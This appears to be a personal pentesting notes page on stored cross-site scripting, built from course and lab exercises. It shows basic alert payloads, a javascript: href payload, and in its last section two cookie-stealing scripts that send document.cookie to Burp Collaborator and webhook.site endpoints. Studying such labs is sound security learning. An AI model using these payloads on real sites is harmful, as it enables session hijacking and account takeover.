

# Stored


**Stored XSS** occurs when malicious scripts are permanently stored on the server and then served to users who view the stored content.



This can lead to persistent attacks, where the malicious script runs every time the stored content is accessed, potentially stealing user data, performing actions on behalf of users, or defacing the website.


## Stored Server XSS

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

The Blog we are testing has two fields: `username` and `comment`. When we test the latter for HTML injection it does not work as the `<>` characters are filtered out by the application (Figure 1). However, the HTML injection works on the `username` field (Figure 2).

<figure><figcaption><p>Figure 1: Testing the <code>comment</code> field for HTML injection.</p></figcaption></figure>

<figure><figcaption><p>Figure 2: Enumerating a vulnerable to HTML injection field.</p></figcaption></figure>

Next, we can test for XSS on the `username` field (Figure 3), and if successful, every user that visits the page will have the payload executed on their browser.

<figure><figcaption><p>Figure 3: Enumerating a vulnerable to XSS field.</p></figcaption></figure>

## Stored Client XSS

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

This time the application in question has a survey form to complete that includes six fields in total, two of them vulnerable to **HTML injection** (Figure 4).&#x20;

<figure><figcaption><p>Figure 4: Stepping through the application and testing for HTML injection.</p></figcaption></figure>

If we test for XSS we get a prompt box back (Figure 5.1), and we can review how this exactly works via the source code of `survey.js` file. At the end of this file, the `getData` function sends a `GET` request and constructs the results table on the front-end (Figure 5.2).

<figure><figcaption><p>Figure 5: Achieving XSS and reviewing how it worked.</p></figcaption></figure>

## href Attribute

> _The example below is based on PortSwigger's_ [_Stored XSS into anchor `href` attribute with double quotes HTML-encoded_](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded) _lab._

In this application there is a comment functionality which includes a `Website` field and its value is stored within the HTML `href` attribute (Figure 6).

<figure><figcaption><p>Figure 6: Identifying potential XSS vectors.</p></figcaption></figure>

We can try escaping the tag using different payloads, but, unfortunately, none of them works.

```javascript
// JaveScript payloads used to escape 
"><script>alert()</script>
">
```

However, **the `href` attribute can itself create a** [**scriptable context**](https://blog.udemy.com/javascript-href/), thus, we are not required to escape it. In this case, we can use the `javascript` pseudo-protocol directly (Figure 7).

```javascript
// JaveScript payloads used
javascript:alert()
```

<figure><figcaption><p>Figure 7: Achieving Stored XSS via a URI-scheme based payload.</p></figcaption></figure>

## Contact Form

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

This application has a ticket functionality and it give us access to both a low- (`UserA`) and a high-privileged account (`AdminA`) (Figure 8).

<figure><figcaption><p>Figure 8: Setting up FireFox's  <a href="../../authorization/automated-a-b-testing.md#multi-account-containers">Multi-Account Containers</a> for XSS testing.</p></figcaption></figure>

We can use a web server, such as Burp's Collaborator or [Webhook](https://webhook.site/), and use `userA` to send a JavaScript payload to `AdminA` through the description box on the Support Ticket page. When the latter receives and opens `userA`'s ticker, a `GET` request will be sent to our server containing `AdminA`'s session cookie (Figure 9 & 10).


```javascript
// collaborator payload
<script>
    fetch('https://705jjd45qk9l1pb4rhns097xgomfa5yu.oastify.com',
        {
            method: 'POST',
            mode: 'no-cors',
            body:document.cookie
        });
</script>

// webhook payload
<script>var i = new Image; i.src="https://webhook.site/094ef770-e736-4b31-a3cb-34be690ff1b9/?"+document.cookie</script>
```


<figure><figcaption><p>Figure 9: Using Burp's Collaborator to steal the admin's cookie.</p></figcaption></figure>

<figure><figcaption><p>Figure 10: Using Webhook to steal the admin's cookie.</p></figcaption></figure>
